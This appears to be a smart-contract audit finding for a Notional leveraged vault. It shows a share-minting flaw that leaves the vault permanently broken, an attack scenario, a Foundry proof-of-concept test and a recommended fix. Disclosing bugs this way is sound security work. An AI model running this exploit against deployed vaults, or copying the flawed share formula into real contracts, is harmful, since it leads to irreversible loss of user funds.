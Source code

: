 Pet Rusty Bobcat

high

# SingleSidedLPVault 's minting shares mechanism might make vaults broken

## Summary
There is a special case where the amount of vault share minted is always 0.
## Vulnerability Detail
The amount of vault share minted are calculated as follow:
```solidity
        if (state.totalPoolClaim == 0) {
            // Vault Shares are in 8 decimal precision
            vaultShares = (lpTokens * uint256(Constants.INTERNAL_TOKEN_PRECISION)) / POOL_PRECISION();
        } else {
            //@audit missing case when totalVaultSharesGlobal = 0 and totalPoolClaim != 0
          >>>  vaultShares = (lpTokens * state.totalVaultSharesGlobal) / state.totalPoolClaim;
        }
```
 Notice that if  ```state.totalVautSharesGlobal```=0  and  ```state.totalPoolClaim``` != 0, the ```vaultShares``` will be 0, and the vault is stuck in this state forever. That implies users who deposit token after this will just lose their money.

Some scenarios can cause vault to enter this state.
Consider this one:
- Vault is deployed
- Attacker (the first user) deposits token into the vault, wait few seconds and then withdraw it. The point is to trigger reward from 3rd party protocols (Even 1s is enough to trigger some reward, there is a POC below), and make the vault's total share becomes 0 again.
- Bot comes to claim reward and then reinvests reward token, getting  pool token in return. Now total vault share is 0, while total pool token is not, making vault enter broken state.

Although this scenario might fail when a second user deposits into the vault before the bot claims the reward, it is very likely to succeed if the bot's reinvestment cycle is short.

Another scenario is when vault owner locks (emergency exit) the vault when global vault share is 0 (after some users deposit and withdraw) and then unlocks/restores the vault.

POC: (please add it under wstETH_cbETH_rETH.t.sol, otherwise bot's reinvestment setup might not work)
```solidity
 function test_myTest() public {
        address account = makeAddr("account");
        uint256 maturity = maturities[0];
        address reward = makeAddr("reward");

        //User mints vault share
        uint256 vaultShares = enterVaultBypass(
            account, maxDeposit, maturity, getDepositParams(0, 0)
        );

        bytes32 role = v().REWARD_REINVESTMENT_ROLE();
        vm.prank(NOTIONAL.owner());
        v().grantRole(role, reward);

        skip(1); //skip to accrue reward

        // Initial pool's reward token should be 0
        assertEq(rewardToken.balanceOf(address(vault)), 0); 

        //User redeem vault share
        exitVaultBypass(account, vaultShares, maturity, getRedeemParams(0, 0));
        

        // Bot claims reward
        vm.prank(reward);
        v().claimRewardTokens();
        
        // vault's reward token balance should increase
        assertGt(rewardToken.balanceOf(address(vault)), 0); 
        

        // Setting up for bot to reinvest reward
        uint256 rewardBalance = rewardToken.balanceOf(address(vault));
        uint256 primaryIndex = v().getStrategyVaultInfo().singleSidedTokenIndex;
        SingleSidedRewardTradeParams[] memory t = new SingleSidedRewardTradeParams[](numTokens);
        for (uint256 i; i < t.length; i++) {
            t[i].sellToken = address(rewardToken);
            if (i == primaryIndex) {
                t[i].buyToken = address(primaryBorrowToken);
                t[i].amount = rewardBalance;
                t[i].tradeParams.dexId = uint16(DexId.BALANCER_V2);
                t[i].tradeParams.tradeType = TradeType.EXACT_IN_SINGLE;
                t[i].tradeParams.oracleSlippagePercentOrLimit = 0;
                // This is some crazy pool with wstETH and BAL in it
                t[i].tradeParams.exchangeData = abi.encode(
                    BalancerV2Adapter.SingleSwapData(
                        0x49b2de7d214070893c038299a57bac5acb8b8a340001000000000000000004be
                    )
                );
            }
        }

        vm.prank(NOTIONAL.owner());
        TRADING_MODULE.setTokenPermissions(
            address(vault),
            address(rewardToken),
            ITradingModule.TokenPermissions({ allowSell: true, dexFlags: 16, tradeTypeFlags: 15})
        );
        
        // Bot reinvests reward
        vm.prank(reward);
        (address r, uint256 amountSold, uint256 poolClaim) = v().reinvestReward(t, 0);
        

        // Minting shares again to check if vault is broken
        uint256 resultVaultShares = enterVaultBypass(
                account, maxDeposit, maturity, getDepositParams(0, 0)
        );

        uint256 resultVaultShares2 = enterVaultBypass(
                account, maxDeposit / 2, maturity, getDepositParams(0, 0)
        );

        uint256 resultVaultShares3 = enterVaultBypass(
                account, maxDeposit / 3, maturity, getDepositParams(0, 0)
        );
        
        // Shares received is always 0 regardless
        assertEq(resultVaultShares, 0);
        assertEq(resultVaultShares2, 0);
        assertEq(resultVaultShares3, 0);

    }
```
![proof](https://github.com/sherlock-audit/2023-10-notional-sota1994/assets/57989625/9656bc6d-afc9-45f5-b865-be69787d057c)


## Impact
- Break vault's core functionalities irreversibly.  
- Cause loss of funds for users.
## Code Snippet
https://github.com/sherlock-audit/2023-10-notional/blob/main/leveraged-vaults/contracts/vaults/common/SingleSidedLPVaultBase.sol#L231-L236

## Tool used

Manual Review

## Recommendation
Consider this chage:
```solidity
        if (state.totalPoolClaim == 0 ||  state.totalVaultSharesGlobal == 0 ) {
            // Vault Shares are in 8 decimal precision
            vaultShares = (lpTokens * uint256(Constants.INTERNAL_TOKEN_PRECISION)) / POOL_PRECISION();
        } else {
            vaultShares = (lpTokens * state.totalVaultSharesGlobal) / state.totalPoolClaim;
        }
```
